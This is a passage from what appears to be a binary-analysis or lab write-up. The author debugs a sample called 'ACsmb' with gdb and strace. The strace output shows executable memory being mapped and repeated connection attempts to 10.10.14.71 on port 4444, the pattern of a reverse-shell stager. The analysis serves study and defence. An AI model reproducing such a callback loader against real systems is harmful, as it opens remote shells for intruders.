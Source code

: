         I do the same for the second value: `x/gd 0x7fffffffdeb0+4`
        ```
        0
        ```

    - I stop before the `while true` JMP: `b *0x4000e3`
        
        And next I jump to the next instruction: `j *0x4000e5`

    - `b *0x4000eb`
        ```
        rax            0x3c                60
        rdi            0x1                 1
        ```

        ```
        60	exit	sys_exit
        %rdi -> int error_code
        ```

        So it's: `exit ( 1 );`


- A faster method but that gives me less freedom: `strace ./ACsmb`
    ```c
    execve("./ACsmb", ["./ACsmb"], 0x7ffd18247980 /* 59 vars */) = 0
    mmap(NULL, 4096, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0) = 0x7f6786bb9000
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("10.10.14.71")}, 16) = -1 ECONNREFUSED (Connection refused)
    nanosleep({tv_sec=5, tv_nsec=0}, NULL)  = 0
    ... while true
    ```